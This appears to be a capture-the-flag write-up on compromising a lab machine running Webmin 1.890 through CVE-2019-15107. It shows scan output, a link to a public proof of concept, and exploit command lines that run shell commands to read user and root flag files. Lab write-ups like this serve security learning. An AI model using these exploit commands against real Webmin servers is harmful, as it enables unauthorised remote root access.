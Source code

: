
---

## Enumeration

First, I performed a port scan and discovered two open services:

```bash
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt
```

- **Port 22** → SSH
    
- **Port 10000** → Webmin service
    

---

## Service Enumeration

Next, I checked the version of the service running on port `10000`. It was identified as **Webmin 1.890**.

---

## Exploitation

Webmin 1.890 is vulnerable to **CVE-2019-15107**, a remote command execution vulnerability.  
I used the following public exploit to gain access:  
🔗 [Webmin 1.890 Exploit PoC](https://github.com/n0obit4/Webmin_1.890-POC)

---

## Privilege Escalation & Flags

Once the exploit was executed successfully, I obtained **root access** on the target.

### User Flag

```bash
python3 Webmin_exploit.py -host 0.0.0.0 -port 10000 -cmd "ls /home"
python3 Webmin_exploit.py -host 0.0.0.0 -port 10000 -cmd "cat /home/username/user.txt"
```

### Root Flag

```bash
python3 Webmin_exploit.py -host 0.0.0.0 -port 10000 -cmd "cat /root/root.txt"
```

---
